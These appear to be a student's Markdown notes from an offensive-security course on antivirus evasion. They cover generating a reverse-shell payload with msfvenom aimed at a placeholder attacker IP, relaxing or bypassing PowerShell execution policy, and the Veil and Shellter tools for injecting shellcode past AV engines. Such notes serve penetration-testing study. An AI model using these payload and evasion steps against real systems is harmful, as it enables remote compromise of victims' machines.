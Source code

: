 Payload (meterpreter) creation:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f powershell -v sc
```


Since the msfvenom payload is for x86, we are going to launch the x86 version of PowerShell, named _Windows PowerShell (x86)_

**NOTE:**
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help  

# Execution Policy
In order to get it to run, you need to be mindful of the user's [Execution Policy](Execution%20Policy.md).  

View & Change policy:  
```powershell
C:\Users\offsec\Desktop> powershell  
Windows PowerShell  
Copyright (C) 2015 Microsoft Corporation. All rights reserved.  
  
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser  
Undefined  
  
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser  
  
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser  
Unrestricted
```
  
Can also bypass the policy on a per-script basis:  
```powershell
ExecutionPolicy -Bypass
```

  
  
# Shellter

[Shellter](Tools.md#Shellter) is a dynamic shellcode injector which can bypass AVs.
It essentially performs a thorough analysis of the target PE file and the execution paths.
It then determines where it can inject our shellcode without relying on traditional injection techniques that are easily caught by AV engines.
- Includes changing of PE file section permissions, creating new sections, etc.
It then attempts to use the existing PE Import Address Table (IAT) entries to locate functions that will be used for the memory allocation, transfer, and execution of our payload.
  